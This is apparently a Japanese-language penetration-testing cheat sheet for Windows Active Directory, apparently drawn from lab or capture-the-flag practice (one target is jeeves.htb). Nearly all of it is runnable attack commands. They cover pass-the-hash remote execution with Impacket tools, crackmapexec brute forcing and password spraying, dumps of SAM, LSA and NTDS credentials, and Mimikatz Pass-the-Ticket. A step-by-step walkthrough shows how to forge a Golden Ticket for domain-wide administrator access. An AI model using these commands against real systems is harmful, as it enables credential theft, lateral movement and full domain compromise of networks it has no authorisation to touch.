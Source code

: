 ## 目次

1. [Impacket](#impacket)
- [psexec](#psexec)
- [smbexec](#smbexec)
- [wmiexec](#wmiexec)
- [atexec](#atexec)
2. [winrs](#winrs)
3. [crackmapexec](#crackmapexec)
- [基本コマンド](#crackmapexec-基本コマンド)
- [モジュール](#crackmapexec-モジュール)
4. [Pass the ticket](#pass-the-ticket)
5. [Golden Ticket](#golden-ticket)
- [実行手順](#実行手順)

## impacket

ここでは、主に資格情報やハッシュを用いてリモートでコマンドを実行するためのツールについて説明します。

### psexec

`psexec`は、管理者権限を持つユーザーがリモートシステムでコマンドを実行できるツールです。

```bash
psexec.py <domain>/<user>:<password1>@<IP>
```

ユーザーはリモートシステムの管理共有（例：C$）への書き込みアクセス権を持っている必要があり、その後、セッションを取得できます。

#### ハッシュ使用例

パスワードの代わりにNTLMハッシュを使用する場合、以下のようにコマンドを実行します。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

他にも、以下のように実行できます。

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@jeeves.htb cmd.exe
```

### smbexec

`smbexec`は、`psexec`に似ていますが、リモートでコマンドを実行する際にSMB（Server Message Block）プロトコルを使用します。

```bash
smbexec.py <domain>/<user>:<password1>@<IP>
```

また、以下のようにハッシュを使用することもできます。

```bash
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### wmiexec

`wmiexec`は、Windows Management Instrumentation（WMI）を使用してリモートシステムでコマンドを実行するツールです。

```bash
wmiexec.py <domain>/<user>:<password1>@<IP>
```

ハッシュを使用する場合は、以下のように実行します。

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### atexec

`atexec`は、Windowsのタスクスケジューラを利用してコマンドをリモート実行するツールです。ハッシュを使用して実行する場合は、以下のコマンドを使います。

```bash
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

---

## winrs

`winrs`は、Windows Remote Shellを使用してリモートシステムでコマンドを実行するためのツールです。以下のコマンドで、ユーザーがシステムにアクセス可能か確認し、その後リバースシェルを実行できます。

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
```

このコマンドは、Windowsセッション内で実行します。

---

## crackmapexec

`crackmapexec`は、ネットワーク上の複数のホストに対して様々な攻撃を自動化するためのツールです。

### crackmapexec 基本コマンド

以下は、`crackmapexec`の基本的な使用例です。

```bash
crackmapexec smb jeeves.htb -u Administrator -p passwords
```

`crackmapexec`は、`smb`, `winrm`, `mssql`, `ldap`, `ftp`, `ssh`, `rdp`などのサービスに対して利用可能です。次に、SMBサービスに対してブルートフォース攻撃を行うコマンド例を示します。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # "Pwned"と表示されます
```

以下は、SMBに対するパスワードスプレー攻撃の例です。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
```

その他の有用なコマンド例：

```bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares # 共有フォルダのリストを表示
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks # ディスク情報の取得
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users # DCのユーザー情報を取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions # アクティブセッションの確認
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol # パスワードポリシーの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam # SAMハッシュの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa # LSAシークレットのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds # NTDS.ditファイルのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} # 特定のグループに属するユーザーの列挙
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' # コマンドの実行, "-x"はcmd, "-X"はpowershellコマンド用
```

### crackmapexec モジュール

`crackmapexec`には、様々なモジュールがあります。以下は、モジュールに関するコマンド例です。

```bash
crackmapexec smb -L # モジュールのリストを表示
crackmapexec smb -M mimikatx --options # モジュールの必要なオプションを表示
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz # デフォルトコマンドの実行
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' # 特定のコマンドを実行
```

---

## Pass the ticket

`Pass the ticket`攻撃は、Mimikatzを用いてKerberosチケットを取得し、それを他のシステムで使用する攻撃です。

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

---

## Golden Ticket

`Golden Ticket`は、ドメインコントローラ上の`krbtgt`アカウントの秘密情報を使用して、任意のユーザーとして認証を行う攻撃です。

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:
```
### 攻撃の実行手順

この手順は、WindowsのActive Directory環境でGolden Ticket攻撃を実行するためのものです。**Golden Ticket**攻撃により、Kerberosチケットを偽造して管理者権限を取得することができます。

#### 1. Mimikatzの実行

最初に、Mimikatzツールを実行します。

```bash
.\mimikatz.exe
```

#### 2. 管理者権限の取得

次に、Mimikatzに管理者権限を取得させます。

```bash
privilege::debug
```

#### 3. `krbtgt`アカウントの暗号化キーの取得

`krbtgt`アカウントのLSAシークレットをダンプして、暗号化キーを取得します。

```bash
lsadump::lsa /inject /name:krbtgt
```

#### 4. Golden Ticket の作成

`krbtgt`の暗号化キーを使用して、Golden Ticketを作成します。

```bash
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:[KRBTGT_HASH]
```

**注意:** `[KRBTGT_HASH]` は、上記の `lsadump::lsa` コマンドで取得した`krbtgt`アカウントのハッシュに置き換えてください。

この手順により、攻撃者はドメイン全体に対して管理者権限を持つことができ、偽造されたKerberosチケットであらゆるコンピュータにアクセスできるようになります。